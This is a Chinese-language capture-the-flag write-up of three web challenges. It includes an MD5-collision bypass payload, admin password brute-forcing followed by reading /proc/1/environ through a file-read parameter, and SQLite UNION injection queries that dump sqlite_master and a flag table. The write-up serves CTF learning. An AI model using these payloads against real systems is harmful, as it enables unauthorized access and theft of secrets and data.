





#### ez_readfile

进入题目显示源码



需要用md5强碰撞绕过第一步：

```
a=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2&b=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
```

成功绕过，后面推断是文件包含，暂时找不到flag位置


#### ezzzz_pickle

进入是一个登陆界面（忘记截图了）

尝试用admin爆破登陆，爆破出密码登陆成功


进入一个界面点读取flag显示这个，尝试抓包发现是通过POST传输文件名



题目叫pickle，网上查是python的反序列化，学着网上的方法直接读环境变量拿到flag

```
filename=/proc/1/environ
```



*这个是非预期解，一般环境变量会把flag删掉，正常来说要走pickle反序列化*


#### SQL???

进去是一个这样的页面


查询语句已经给出来了，而且发现URL后面接着`/?id = 1`，知道注入点就在这，发现不是MYSQL数据库，哈基俊说是SQLite，语法有所不同

> database()那些用不了了，注释符由#变成了--

试出来查询的字段数是5，构造联合查询：

```
?id=1 union select 1,2,3,4,5;--
```



发现回显点很嗨多，直接查表名：

```
?id=1 union select 1,(select sql from sqlite_master),(select group_concat(sql) from sqlite_master),4,5;--
```



看见flag表，直接读拿到flag：

```
?id=1 union select 1,(select sql from sqlite_master),(select group_concat(sql) from sqlite_master),(select * from flag),5;--
```

